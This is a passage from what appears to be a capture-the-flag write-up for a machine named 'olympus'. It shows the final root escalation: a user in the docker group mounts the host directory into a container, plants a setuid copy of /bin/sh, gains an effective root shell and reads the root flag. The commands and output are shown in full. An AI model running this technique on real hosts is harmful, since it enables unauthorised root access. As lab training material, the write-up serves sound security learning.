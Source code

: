 ```bash
 ---> b9b703926132
Successfully built b9b703926132
Successfully tagged procontainer:latest
```

### Step 3
```bash
# Map the present working directory on the host to /tmp in the container.  Have the container run /bin/sh -c "cp /bin/sh /tmp && chown root.root sh && chmod a+s sh"
# This command copies /bin/sh inside of the container to /tmp which is mapped to the present working directory on our host
# It will then chown the copied /bin/sh to root:root
# Then it will add the sticky bit to the copied /bin/sh which will allow anyone who can execute it to run it as the owner of the binary (root in this case)
# Since these changes are being made on the host, the binary will have root privileges on the host.
prometheus@olympus:/tmp/procontainer$ docker run -t -v $PWD:/tmp procontainer /bin/sh -c "cp /bin/sh /tmp && chown root.root sh && chmod a+s sh"
prometheus@olympus:/tmp/procontainer$ ls -al
total 136
drwxr-xr-x 2 prometheus prometheus   4096 Aug 24 20:41 .
drwxrwxrwt 9 root       root         4096 Aug 24 20:41 ..
-rw-r--r-- 1 prometheus prometheus     88 Aug 24 20:38 Dockerfile
-rwsr-sr-x 1 root       root       125400 Aug 24 20:41 sh
prometheus@olympus:/tmp/procontainer$ ./sh
# id

# We can see an effective user ID of 0, so we are root in this shell
uid=1000(prometheus) gid=1000(prometheus) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker),1000(prometheus)
# ls -al /root
total 28
drwx------  4 root root 4096 Apr 15 06:55 .
drwxr-xr-x 22 root root 4096 Apr  2 13:48 ..
-rw-------  1 root root    0 Apr 15 07:20 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  2 root root 4096 Apr  2 13:49 .cache
drwxr-xr-x  2 root root 4096 Apr 15 06:55 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Apr  4 14:00 root.txt
# cat /root/root.txt
aba...
```

![root flag](screenshots/17_docker_escalation.PNG)
